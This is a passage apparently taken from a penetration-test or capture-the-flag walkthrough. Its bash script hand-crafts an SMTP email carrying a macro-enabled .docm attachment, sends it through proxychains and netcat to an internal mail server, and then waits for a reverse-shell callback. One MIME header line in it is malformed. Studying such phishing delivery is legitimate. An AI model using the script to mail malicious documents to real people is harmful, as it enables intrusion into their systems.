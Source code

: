 ```bash
echo ""
sleep 1;
echo "--KkK170891tpbkKk__FV_KKKkkkjjwq"
sleep 1;
echo "Content-Type: text/plain; charset=UTF-8; format=flowed"
sleep 1;
echo "Content-Disposition: inline"
sleep 1;
echo ""
sleep 1;
echo $txtmessage
sleep 1;
echo ""
sleep 1;
echo ""
sleep 1;
echo "--KkK170891tpbkKk__FV_KKKkkkjjwq"
sleep 1;
echo "Content-Type: file --mime-type -b filename-$(date +%y%m%d).zip; name=filename-$(date +%y%m%d).docm"
sleep 1;
echo "Content-Transfer-Encoding: base64"
sleep 1;
echo "Content-Disposition: attachment; filename="filename-$(date +%y%m%d).docm";"
sleep 1;
echo ""
sleep 1;
# The content is encoded in base64.
cat $filename | base64;
sleep 1;
echo ""
sleep 1;
echo ""
sleep 1;
echo "--KkK170891tpbkKk__FV_KKKkkkjjwq--"
sleep 1;
echo ""
sleep 1;
echo "."
sleep 1;
echo "quit"
} | proxychains nc 172.19.0.4 25
```

Once the mail is sent thanks to our superb script, we just have to wait for the callback:
